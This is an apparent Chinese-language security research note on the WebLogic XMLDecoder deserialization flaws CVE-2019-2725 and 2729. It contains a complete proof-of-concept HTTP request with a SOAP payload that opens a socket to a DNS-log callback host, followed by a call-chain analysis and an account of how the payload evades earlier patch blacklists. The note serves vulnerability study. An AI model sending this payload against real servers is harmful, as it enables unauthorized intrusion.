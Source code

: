 - [CVE-2019-2725 & 2729 反序列化](#cve-2019-2725--2729-反序列化)
  - [POC](#poc)
  - [原理](#原理)
    - [调用链](#调用链)
    - [Bypass CVE-2017-12071](#bypass-cve-2017-12071)
      - [payload构造](#payload构造)
- [BypassCVE-2019-2725->2729](#bypasscve-2019-2725-2729)
  - [参考:](#参考)
# CVE-2019-2725 & 2729 反序列化
影响版本
```
Oracle WebLogic Server 10.*
Oracle WebLogic Server 12.1.3
```
影响组件
```
bea_wls9_async_response.war
wsat.war 
```
## POC
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 748
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
    <class>
        <string>java.net.Socket</string>
        <void>
            <string>d2r0h9.dnslog.cn</string>
            <int>80</int>
        </void>
    </class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
## 原理
主要在于bea_wls9_async_response.war和wsat.war组件中处理soap消息时使用了XMLDecoder进行解析xml数据,触发了XMLDecoder反序列化漏洞,而这次也则绕过了CVE-2017-12071的补丁. 
### 调用链
>Tips:调试时不知道从哪打断点时直接在最后的ProcessBuilder类打断点,则可得到调用链,再反向寻找相关组件的触发流程.

调用链如下,从`Soapprocessor.process`开始处理soap数据,最后从`WorkContextXmlInputAdapter.readUTF`中进入`XMLDecoder.readObject`触发XMLDecoder反序列化.
![](4.png)

在`process`中根据请求类型为post,调用`handlePost`,在`handlePost`中主要为解析和封装soap消息,最后调用var7即WsSkel类的invoke方法.
![](5.png)
在`WsSkel.invoke`中实例化了一个ServerDispatcher对象,并设置了其Wsport和Connection属性,分别为请求的服务url和http,然后调用`ServerDispatcher.dispatch`.
![](6.png)
在`ServerDispatcher.dispatch`中调用` this.getHandlerChain().handleRequest(this.getContext(), var6);`,而getHandlerChain()即为`HandlerIterator`,即继续调用`HandlerIterator.handleRequest`.
![](7.png)
在`handleRequest`中var4赋为了`WorkAreaServerHandler`.
![](8.png)
然后调用了`WorkAreaServerHandler.handleRequest`,其中var3为通过`WlMessageContext var3 = WlMessageContext.narrow(var1)`获得的MessageContext对象.
![](9.png)
在`WorkAreaServerHandler.handleRequest`中,获取到soap的headers,然后实例化了一个`WorkContextMapInterceptor`对象,将获取到的WorkAreaHeader(var4)传入`new WorkContextXmlInputAdapter`中,再将该`WorkContextXmlInputAdapter`传入`receiveRequest`中.
![](10.png)
然后经过`WorkContextLocalMap.receiveRequest`调用`WorkContextEntryImpl.readEntry`,最后在`readEntry`中调用`WorkContextXmlInputAdapter.readUTF`.
![](11.png)
而在`readUTF`中则直接返回调用xmlDecoder.readObect()触发XMLDecoder反序列化.
![](12.png)
### Bypass CVE-2017-12071
该漏洞与weblogic之前的CVE-2017-3506&CVE-2017-12071原理类似,只不过入口点不一样,最后都是触发XMLDecoder反序列化漏洞,而该漏洞主要在于绕过了之前CVE-2017-12071补丁中的黑名单.
因为在之前的补丁中无法调用对象的对应方法,所以在该漏洞中的利用思路为在对象的构造函数中触发rce,在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞链造成了远程代码执行。

#### payload构造
在官方文档中可以看到class标签也可以指定实例化任意类,从而绕过了`object、new、method`关键字黑名单来实例化对象.
![](13.png)
因为`void`标签受限的原因,无法调用对象的相应方法,则从对象实例化过程中的构造函数下手,通过对象自动执行的构造函数来触发RCE,同时因为array标签的限制,构造函数的参数只能为bytes类型.思路则为利用class标签来实例化类,再利用void标签传入bytes类型的参数进行利用.

**利用链:**  
Weblogic自带的1.6:jdk7u21 gadget  
12.1.3: org.slf4j.ext.EventData  
...  
...  
... 
# BypassCVE-2019-2725->2729
在2019-2725的补丁中继续把class加入了黑名单,而在2729中则是使用`<array method=”forName”>`来代替class标签,因为在weblogic自带的jdk1.6来说,这两个标签是相同效果的可以进行替换.而在2729的补丁中则使用了白名单,且对白名单的标签进行了属性的类型限制.

## 参考:  

https://www.freebuf.com/articles/web/202203.html  
https://paper.seebug.org/909/